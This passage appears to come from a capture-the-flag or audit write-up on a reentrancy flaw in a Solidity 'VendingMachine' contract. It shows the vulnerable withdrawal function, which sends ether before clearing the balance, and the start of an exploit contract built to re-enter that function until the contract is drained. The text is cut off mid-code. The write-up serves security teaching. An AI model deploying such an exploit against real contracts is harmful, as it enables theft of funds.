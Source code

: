 ### `withdrawal` function

```solidity
function withdrawal() public isStillValid {
    uint256 contractBalanceBeforeTX = getContractBalance();
    uint256 balance = consumersDeposit[msg.sender];
    uint256 finalContractBalance = contractBalanceBeforeTX - balance;

    require(balance > 0, "Insufficient balance");

    (bool sent, ) = msg.sender.call{value: balance}("");
    require(sent, "Failed to send ether");

    consumersDeposit[msg.sender] = 0;

    uint256 contractBalanceAfterTX = getContractBalance();

    if ((contractBalanceAfterTX < finalContractBalance) && isExtContract(msg.sender)) {
        txCheckLock = true;
    }
}
```

This is the most interesting and problematic function of the whole contract.
The purpose of this function is to allow the `msg.sender` to withdraw the whole balance he/she has accumulated via the `deposit` function.

> **Note:** All the variables and the last check are only important to track if the contract has been hacked or not and to not allow other auditors to submit a second solution, they are not important for this article scope.

Did you spot the **huge red flag** in the function?

The function implementation is not following the [Use the Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) allowing the `msg.sender` a way to re-enter the `withdrawl` function and keep withdrawing until the contract is completely drained.

### The attack

To leverage the reentrancy exploit of the `withdrawal` function, we need to deploy a contract that will re-enter the function when the `VendingMachine` send the funds calling the contract's `receive` function.

```solidity
contract VendingMachineExploiter {
    address private owner;
    VendingMachine private victim;
    bool private done = false;

    constructor(VendingMachine _victim) payable {
        // init
        owner = msg.sender;
        victim = _victim;

        // deposit the minimum amount we need to be able to start the attack
        victim.deposit{value: msg.value}();
    }

    function exploit() external {
        // Start the attack
        victim.withdrawal();
    }

    function withdraw() external {
        // Withdraw all the funds in the contract
```